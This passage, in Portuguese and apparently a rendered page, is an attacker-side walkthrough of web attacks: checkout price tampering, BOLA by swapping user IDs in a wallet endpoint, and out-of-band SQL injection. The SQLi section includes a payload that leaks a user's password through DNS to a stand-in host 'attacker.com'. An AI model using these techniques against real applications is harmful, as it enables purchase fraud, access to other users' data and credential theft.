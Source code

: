 Acesso ao frontend do sistema.

Conhecimento básico de ferramentas como DevTools do navegador ou Burp Suite.

Ação prática:

Adiciona um item caro ao carrinho (iPhone $1000).

Antes de enviar o pedido, intercepta a requisição de checkout.

Modifica o price manualmente para 1.00 no payload JSON:

javascript
Copiar
Editar
{"item":"iPhone","price":"1.00"}
Envia a requisição alterada.

Se o servidor não validar o preço no backend, compra o iPhone por $1.

Realidade:

Aplicações sem validação de preço no servidor são facilmente hackeáveis.

4. Broken Object Level Authorization (BOLA)
O que o atacante precisa:

Estar autenticado como qualquer usuário comum.

Capacidade de modificar parâmetros HTTP (Burp Repeater, Postman, DevTools).

Ação prática:

Navega no app e encontra endpoints tipo:

bash
Copiar
Editar
GET /api/user/1234/wallet
Troca 1234 por 1235, 1236, etc.

Se o sistema não validar se user_id pertence ao JWT do token/autenticação -> acesso a dados de terceiros.

Realidade:

APIs que usam IDs previsíveis (/users/1) são extremamente vulneráveis.

5. Advanced SQL Injection (OOB SQLi)
O que o atacante precisa:

Um endpoint vulnerável a injeção, mesmo que blind (sem mensagens de erro).

Um domínio sob seu controle para receber conexões DNS (attacker.com).

Ação prática:

Injeta payload OOB:

sql
Copiar
Editar
SELECT LOAD_FILE(CONCAT('\\\\',(SELECT password FROM users WHERE id=1),'.attacker.com\\foo'));
Se o servidor processar, fará uma conexão DNS para password.attacker.com.

